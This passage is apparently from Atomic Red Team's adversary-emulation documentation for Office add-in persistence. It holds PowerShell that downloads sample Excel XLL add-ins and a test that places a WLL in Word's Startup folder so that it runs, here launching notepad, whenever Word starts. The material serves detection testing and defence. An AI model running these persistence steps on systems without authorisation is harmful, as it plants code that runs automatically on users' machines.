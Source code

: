 ##### Description: XLL files must exist on disk at specified location

##### Check Prereq Commands:

```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll") -and (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll")) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x64.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll"
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x86.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll"
```

<br/>
<br/>

## Atomic Test #3 - Persistent Code Execution Via Word Add-in File (WLL)

Creates a Word Add-in file (WLL) which runs automatically when Word is started
The sample WLL provided launches the notepad as a proof-of-concept for persistent execution from Office.
Successfully tested on 32-bit Office 2016. Not successful from microsoft 365 version of Office.

**Supported Platforms:** Windows

**auto_generated_guid:** 95408a99-4fa7-4cd6-a7ef-cb65f86351cf

#### Attack Commands: Run with `powershell`!

```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))
{
  Write-Host "64-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x64.wll" "$env:APPDATA\Microsoft\Word\Startup\notepad.wll"
}
else{
  Write-Host "32-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x86.wll" "$env:APPDATA\Microsoft\Word\Startup\notepad.wll"
}
Stop-Process -Name "WinWord"
Start-Process "WinWord"
```
